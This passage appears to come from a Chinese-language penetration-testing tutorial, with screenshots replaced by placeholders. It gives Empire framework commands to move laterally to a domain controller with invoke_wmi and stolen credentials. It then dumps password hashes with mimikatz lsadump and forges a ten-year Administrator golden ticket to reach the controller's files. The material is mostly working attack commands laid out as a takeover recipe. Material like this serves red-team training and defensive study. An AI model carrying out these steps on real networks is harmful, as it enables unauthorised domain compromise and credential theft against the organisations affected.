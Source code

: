 ```
usemodule lateral_movement/invoke_wmi
set Listener C1ay
set CredID 3
set ComputerName DC
execute
```

--图片--

新的会话上线，通过agents查看

--图片--

成功获取到域控权限。

也可以通过pth 来获取域控访问权限

## 6.10 制作黄金钥匙
1、输入mimikatz，通过creds获取凭证

--图片--

2、获取用户hash值，命令如下：

```
usemodule credentials/mimikatz/lsadump
creds
```
 
--图片--

3、制作黄金钥匙，命令如下：

```
usemodule credentials/mimikatz/golden_ticket
set credid 5
set user Administrator
execute
```

--图片--

可以看到获取黄金票据成功，时间是十年。尝试访问DC的c盘下的文件

--图片--
